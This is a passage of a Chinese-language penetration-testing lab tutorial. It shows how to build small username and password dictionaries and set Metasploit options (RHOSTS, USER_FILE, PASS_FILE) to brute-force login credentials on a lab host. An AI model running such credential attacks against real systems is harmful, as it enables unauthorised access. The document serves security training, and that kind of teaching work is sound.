 ```
# 连接 Kali 终端
sudo ssh Kali
```

登录 Kali 后编写用户名文件 `username.txt`，在文件 `username.txt` 文件中，添加如下内容，作为我们的用户名字典：

```
123456
admin
msfadmin
root
kali
```

编写我们的密码文件字典 `password.txt`，文件内容如下，如图所示：
```
abc123
1234
123456
root
msfadmin
admin
toor
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480312323293.png-wm)


正常的渗透攻击中，字典的数量不可能这么少，这里只是为了演示这个过程，其中的数据字典，需要我们自己在日常的练习中，不断的收集。

弄好账号和密码字典后，我们回到 MSF 终端中，设置参数，准备进行渗透攻击：

分别设置所要渗透的目标主机参数，设置文件名，和账号名文件：

```
# 设置目标渗透主机
set RHOSTS 192.168.122.102

# 设置账户名字典
set USER_FILE username.txt

# 设置密码字典
set PASS_FILE password.txt
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480311791737.png-wm)


## 四、渗透攻击

### 4.1 渗透攻击

最后一步，输入命令，进行渗透攻击：

```
# 进行渗透攻击
exploit
```
